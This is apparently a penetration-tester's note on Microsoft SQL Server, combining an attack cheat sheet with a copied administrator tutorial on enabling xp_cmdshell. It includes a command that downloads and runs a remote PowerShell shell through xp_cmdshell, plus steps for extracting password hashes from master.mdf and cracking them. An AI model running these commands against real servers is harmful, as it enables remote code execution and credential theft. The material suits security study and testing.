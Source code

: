  MSSql stands for Microsoft Structured Query Language

## Interaction

```sh
mssqlclient.py sa:password@192.168.0.1
```
## Commands

Get the Microsoft SQL version.

```sql
SELECT @@version;
```

Attempt to enable code execution.

```sql
enable_xp_cmdshell;
```

Run commands after enabling code execution.

```sql
EXEC xp_cmdshell whoami
```

Download and execute shell from attacker.

```sql
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://127.0.0.1/shell.ps1") | powershell -noprofile'
```

##### Problem

Sometimes there may be a need to run some external processing from within Microsoft SQL Server. So, to make this task easy for both Database Administrators (DBAs) and Developers, Microsoft has a built-in extended stored procedure, called **xp_cmdshell**. With this extended stored procedure you have the ability to run any command line process, so you can embed this within your stored procedures, jobs or batch processing. This option is disabled by default. Also, to limit access to using xp_cmdshell only members of the sysadmin server role have default rights.

##### Solution

In this tutorial we will look at how to enable **xp_cmshell** and some of the errors you may see.

## SQL Server Errors for xp_cmdshell

Here are some errors you may encounter with xp_cmdshell.

#### SQL Server blocked access to procedure sys.xp_cmdshell

If you have sysadmin privileges and don't enable xp_cmdshell and you issue a T-SQL command such as the following to get a directory listing of the C: drive in [SQL Server Management Studio](https://www.mssqltips.com/sql-server-tip-category/52/sql-server-management-studio/) (SSMS):

```sql
xp_cmdshell 'dir c:\'
```

you get the following error message:

```plaintext
Msg 15281, Level 16, State 1, Procedure xp_cmdshell, Line 1 [Batch Start Line 0]  
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

#### Execute Permission Denied on xp_cmdshell

If you don't have sysadmin privileges and try to run xp_cmdshell whether it is enabled or not you get this error message:

```shell
Msg 229, Level 14, State 5, Procedure xp_cmdshell, Line 1 [Batch Start Line 0]  
The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```
#### The configuration option xp_cmdshell does not exist

Another error you may get if you try to enable xp_cmdshell using sp_configure when advanced options is not set is the following error:

```shell
Msg 15123, Level 16, State 1, Procedure sp_configure, Line 62 [Batch Start Line 2]  
The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
```

So in order to use xp_cmdshell whether you are a sysadmin or a regular user you need to first enable the use of xp_cmdshell.

## Enable xp_cmdshell with sp_configure

The following code with enable xp_cmdshell using sp_configure. You need to issue the RECONFIGURE command after each of these settings for it to take effect.

```sql
-- this turns on advanced options and is needed to configure xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
-- this enables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

## Disable xp_cmdshell with sp_configure

The following code with disable xp_cmdshell using sp_configure:

```shell
-- this turns on advanced options and is needed to configure xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
-- this disables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '0' 
RECONFIGURE
```

## Enable or Disable xp_cmdshell with SSMS Facets

From within [SSMS](https://www.mssqltips.com/sql-server-tip-category/52/sql-server-management-studio/), right click on the instance name and select Facets.

![sql server facets](https://www.mssqltips.com/tipimages2/1020_facets2.png)

In the Facet dropdown, change to **Server Security** as shown below.

You can then change the setting for **XpCmdShellEnabled** as needed to either True or False. After changing the value, click OK to save the setting and the change will take effect immediately. There is not a need to enable show advanced options or use reconfigure, the GUI takes care of this automatically.

![sql server facets](https://www.mssqltips.com/tipimages2/1020_facets.png)

## Granting Access to xp_cmdshell

Let's say we have a user that is not a sysadmin, but is a user of the master database and we want to grant access to run xp_cmdshell.

```shell
-- add user test to the master database
USE master
GO
CREATE USER [test] FOR LOGIN [test]
GO

-- grant execute access to xp_cmdshell
GRANT EXEC ON xp_cmdshell TO [test]
```

We get this error message:

```shell
Msg 15153, Level 16, State 1, Procedure xp_cmdshell, Line 1 [Batch Start Line 0]  
The xp_cmdshell proxy account information cannot be retrieved or is invalid. Verify that the '##xp_cmdshell_proxy_account##' credential exists and contains valid information.
```

There is not a need to give a user sysadmin permissions or elevated permissions to run xp_cmdshell. To do so you can create a proxy account as shown in this tip [Creating a SQL Server proxy account to run xp_cmdshell](https://www.mssqltips.com/sqlservertip/2143/creating-a-sql-server-proxy-account-to-run-xpcmdshell/).

##### Next Steps

-   Check your SQL Server instances and enable or disable xp_cmdshell as needed.
-   Be sure to check out - [Get Started with SQL Server xp_cmdshell](https://www.mssqltips.com/sqlservertip/5944/get-started-with-sql-server-xpcmdshell/).
-   Review all of the [SQL Server Security tips](https://www.mssqltips.com/sql-server-tip-category/19/security/) for DBAs and Developers on MSSQLTips.com.

## Credentials

Microsoft SQL credentials are stored in `master.mdf`. An example location can be found below.

```sh
C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\Backup\master.mdf
```

You can retrieve the hashes from the mdf file using [Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes) in PowerShell.

```sh
Add-Type -Path 'OrcaMDF.RawCore.dll'
Add-Type -Path 'OrcaMDF.Framework.dll'
import-module .\Get-MDFHashes.ps1
Get-MDFHashes -mdf "C:\Users\admin\Desktop\master.mdf"
```

John can then be used to crack the hash.

more: 
1. https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/mssql 
2. [MSSQL Practical Injection Cheat Sheet - Perspective Risk](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/) 
